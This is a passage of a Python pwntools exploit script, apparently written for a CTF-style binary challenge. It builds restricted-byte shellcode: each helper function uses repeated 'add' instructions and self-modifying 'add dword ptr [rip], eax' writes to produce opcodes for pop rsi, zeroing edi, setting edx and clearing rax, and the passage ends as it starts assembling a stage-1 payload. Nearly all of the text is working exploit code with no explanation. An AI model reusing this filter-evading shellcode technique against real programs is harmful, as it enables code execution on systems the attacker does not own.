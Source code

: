 ```python
        return process(e.path)


p = start()


def pop_rsi():
    # pop rsi = 0x5e
    # 0x5e = 0xf*6+0x4
    rsi_pop = asm('add al, 0xf')*6
    rsi_pop += asm('add al, 0x4')
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    rsi_pop += asm('add dword ptr [rip], eax')
    rsi_pop += b'\x00'*1
    log.info('> (pop rsi)*3 shellcode : (%i bytes)' % len(rsi_pop))
    return rsi_pop


def zero_edi():
    # mov rdi = 0xbf
    # (0xbf=0xba+0x5)
    edi_zero = asm('add al, 0xf')*6
    edi_zero += asm('add al, 0x7')
    edi_zero += asm('add dword ptr [rip], eax')
    edi_zero += b'\x00'*5
    log.info('> (mov edi, 0x0) shellcode : (%i bytes)' % len(edi_zero))
    return edi_zero


def big_edx():
    # 0:   ba fb 01 00 00          mov    edx, 0x1fb'
    # (0x1fbfba=0xbf+0xf0e0f+0xf*15+0xb)
    edx_big = asm('add eax, 0xf0e0f')
    edx_big += asm('add al,0xf')*15
    edx_big += asm('add al, 0xb')
    edx_big += asm('add dword ptr [rip], eax')
    edx_big += b'\x00'*5
    log.info('> (mov edx, 0x1fb) shellcode : (%i bytes)' % len(edx_big))
    return edx_big


def zero_rax():
    # sub rax, rax
    # 0:   48 29 c0                sub    rax, rax'
    # 0xc02948=0x1fbba+0xf0f0f*11+0xb0f0f+0x0f0f*6+0x90f+0x30f+0xf*6+8
    rax_zero = asm('add eax,0x0f0f0f')*11
    rax_zero += asm('add eax,0xb0f0f')
    rax_zero += asm('add eax, 0x0f0f')*6
    rax_zero += asm('add eax, 0x90f')
    rax_zero += asm('add eax, 0x30f')
    rax_zero += asm('add al, 0x0f')*6
    rax_zero += asm('add al, 0x8')
    rax_zero += asm('add dword ptr [rip], eax')
    rax_zero += b'\x00'*3
    log.info('> (sub rax, rax) shellcode : (%i bytes)' % len(rax_zero))
    return rax_zero


log.info('Building Stage1 Shellcode.')
stage1 =  pop_rsi()
```
